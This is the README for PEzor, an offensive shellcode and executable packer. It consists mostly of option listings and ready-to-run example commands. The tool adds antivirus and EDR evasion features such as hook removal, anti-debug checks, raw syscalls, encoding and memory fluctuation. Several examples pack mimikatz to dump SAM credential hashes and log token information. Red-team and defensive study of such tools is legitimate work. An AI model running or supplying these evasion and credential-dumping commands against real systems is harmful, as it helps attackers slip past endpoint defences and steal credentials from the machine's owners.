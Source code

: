 PEzor
=====

Read the blog posts here:

- [https://iwantmore.pizza/posts/PEzor.html](https://iwantmore.pizza/posts/PEzor.html)
- [https://iwantmore.pizza/posts/PEzor2.html](https://iwantmore.pizza/posts/PEzor2.html)
- [https://iwantmore.pizza/posts/PEzor3.html](https://iwantmore.pizza/posts/PEzor3.html)
- [https://iwantmore.pizza/posts/PEzor4.html](https://iwantmore.pizza/posts/PEzor4.html)

```raw
 ________________
< PEzor!! v3.1.0 >
 ----------------
      \                    / \  //\
       \    |\___/|      /   \//  \\
            /0  0  \__  /    //  | \ \
           /     /  \/_/    //   |  \  \
           @_^_@'/   \/_   //    |   \   \
           //_^_/     \/_ //     |    \    \
        ( //) |        \///      |     \     \
      ( / /) _|_ /   )  //       |      \     _\
    ( // /) '/,_ _ _/  ( ; -.    |    _ _\.-~        .-~~~^-.
  (( / / )) ,-{        _      `-.|.-~-.           .~         `.
 (( // / ))  '/\      /                 ~-. _ .-~      .-~^-.  \
 (( /// ))      `.   {            }                   /      \  \
  (( / ))     .----~-.\        \-'                 .~         \  `. \^-.
             ///.----..>        \             _ -~             `.  ^-`  ^-_
               ///-._ _ _ _ _ _ _}^ - - - - ~                     ~-- ,.-~
                                                                  /.-~
---------------------------------------------------------------------------
```

<!-- toc -->
* [Installation](#installation)
* [Usage](#usage)
<!-- tocstop -->

<!-- install -->
# Installation
The `install.sh` is designed to work on a Kali Linux distro.
```sh-session
$ git clone https://github.com/phra/PEzor.git
$ cd PEzor
$ sudo bash install.sh
$ bash PEzor.sh -h
```

# Upgrading from v2.x.x

The `PATH` variable has to be updated to use a specific commit of [Donut](https://github.com/TheWover/donut)! Check the updated `install.sh` script.

<!-- installstop -->

<!-- usage -->
# Usage
* [`PEzor -h`](#PEzor-help)
* [`PEzor <EXECUTABLE> [donut args...]`](#PEzor-executable)
* [`PEzor <SHELLCODE>`](#PEzor-shellcode)
<!-- usagestop -->

<!-- pezor-help -->
## `PEzor help`

display help for PEzor

```
USAGE
  $ PEzor help
```
<!-- pezor-helpstop -->

<!-- pezor-executable -->
## `PEzor <EXECUTABLE>`

Pack the provided executable into a new one

```
OPTIONS
  -h                        Show usage and exits
  -32                       Force 32-bit executable
  -64                       Force 64-bit executable
  -debug                    Generate a debug build
  -unhook                   User-land hooks removal
  -antidebug                Add anti-debug checks
  -syscalls                 Use raw syscalls [64-bit only] [Windows 10 only]
  -sgn                      Encode the generated shellcode with sgn
  -text                     Store shellcode in .text section instead of .data
  -rx                       Allocate RX memory for shellcode
  -self                     Execute the shellcode in the same thread
  -sdk=VERSION              Use specified .NET Framework version (2, 4, 4.5 (default))
  -cleanup                  Perform the cleanup of allocated payload and loaded modules (only for BOFs)
  -sleep=N                  Sleeps for N seconds before unpacking the shellcode
  -format=FORMAT            Outputs result in specified FORMAT (exe, dll, reflective-dll, service-exe, service-dll, dotnet, dotnet-createsection, dotnet-pinvoke)
  -fluctuate=PROTECTION     Fluctuate memory region to PROTECTION (RW or NA) by hooking Sleep()
  [donut args...]           After the executable to pack, you can pass additional Donut args, such as -z 2

EXAMPLES
  # 64-bit (self-inject RWX)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 mimikatz/x64/mimikatz.exe -z 2
  # 64-bit (self-inject RX)
  $ PEzor.sh -unhook -antidebug -text -self -rx -sleep=120 mimikatz/x64/mimikatz.exe -z 2
  # 64-bit (raw syscalls)
  $ PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=120 mimikatz/x64/mimikatz.exe -z 2
  # 64-bit (fluctuate to READWRITE when sleeping)
  $ PEzor.sh -fluctuate=RW -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"coffee" "sleep 5000" "coffee" "exit"'
  # 64-bit (fluctuate to NOACCESS when sleeping)
  $ PEzor.sh -fluctuate=NA -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"coffee" "sleep 5000" "coffee" "exit"'
  # 64-bit (beacon object file)
  $ PEzor.sh -format=bof mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (beacon object file w/ cleanup)
  $ PEzor.sh -format=bof -cleanup mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (reflective dll)
  $ PEzor.sh -format=reflective-dll mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (service exe)
  $ PEzor.sh -format=service-exe mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (service dll)
  $ PEzor.sh -format=service-dll mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (dotnet)
  $ PEzor.sh -format=dotnet -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (dotnet-pinvoke)
  $ PEzor.sh -format=dotnet-pinvoke -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (dotnet-createsection)
  $ PEzor.sh -format=dotnet-createsection -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 32-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 mimikatz/Win32/mimikatz.exe -z 2
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread)
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 mimikatz/Win32/mimikatz.exe -z 2
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread) and arguments for donut
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 mimikatz/Win32/mimikatz.exe -z 2 "-plsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv"
```
<!-- pezor-executablestop -->

<!-- pezor-shellcode -->
## `PEzor <SHELLCODE>`

Pack the provided shellcode into an executable

```
USAGE
  $ PEzor <-32|-64> [options...] <SHELLCODE>

OPTIONS
  -h                        Show usage and exits
  -32                       Force 32-bit executable
  -64                       Force 64-bit executable
  -debug                    Generate a debug build
  -unhook                   User-land hooks removal
  -antidebug                Add anti-debug checks
  -shellcode                Force shellcode detection
  -syscalls                 Use raw syscalls [64-bit only] [Windows 10 only]
  -sgn                      Encode the provided shellcode with sgn
  -text                     Store shellcode in .text section instead of .data
  -rx                       Allocate RX memory for shellcode
  -self                     Execute the shellcode in the same thread [requires RX shellcode, not compatible with -sgn]
  -cleanup                  Perform the cleanup of allocated payload and loaded modules (only for BOFs)
  -sleep=N                  Sleeps for N seconds before unpacking the shellcode
  -format=FORMAT            Outputs result in specified FORMAT (exe, dll, reflective-dll, service-exe, service-dll, dotnet, dotnet-createsection, dotnet-pinvoke)
  -fluctuate=PROTECTION     Fluctuate memory region to PROTECTION (RW or NA) by hooking Sleep()

EXAMPLES
  # 64-bit (self-inject RWX)
  $ PEzor.sh shellcode.bin
  # 64-bit (self-inject RX)
  $ PEzor.sh -unhook -antidebug -text -self -rx -sleep=120 shellcode.bin
  # 64-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 shellcode.bin
  # 64-bit (raw syscalls)
  $ PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=120 shellcode.bin
  # 64-bit (fluctuate to READWRITE when sleeping)
  $ PEzor.sh -fluctuate=RW shellcode.bin
  # 64-bit (fluctuate to NOACCESS when sleeping)
  $ PEzor.sh -fluctuate=NA shellcode.bin
  # 64-bit (beacon object file)
  $ PEzor.sh -format=bof shellcode.bin
  # 64-bit (beacon object file w/ cleanup)
  $ PEzor.sh -format=bof -cleanup shellcode.bin
  # 64-bit (reflective dll)
  $ PEzor.sh -format=reflective-dll shellcode.bin
  # 64-bit (service exe)
  $ PEzor.sh -format=service-exe shellcode.bin
  # 64-bit (service dll)
  $ PEzor.sh -format=service-dll shellcode.bin
  # 64-bit (dotnet)
  $ PEzor.sh -format=dotnet shellcode.bin
  # 64-bit (dotnet-pinvoke)
  $ PEzor.sh -format=dotnet-pinvoke shellcode.bin
  # 64-bit (dotnet-createsection)
  $ PEzor.sh -format=dotnet-createsection shellcode.bin
  # 32-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 shellcode.bin
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread)
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 shellcode.bin
```

_See code: [PEzor.sh](https://github.com/phra/PEzor/blob/master/PEzor.sh)_
<!-- pezor-shellcodestop -->
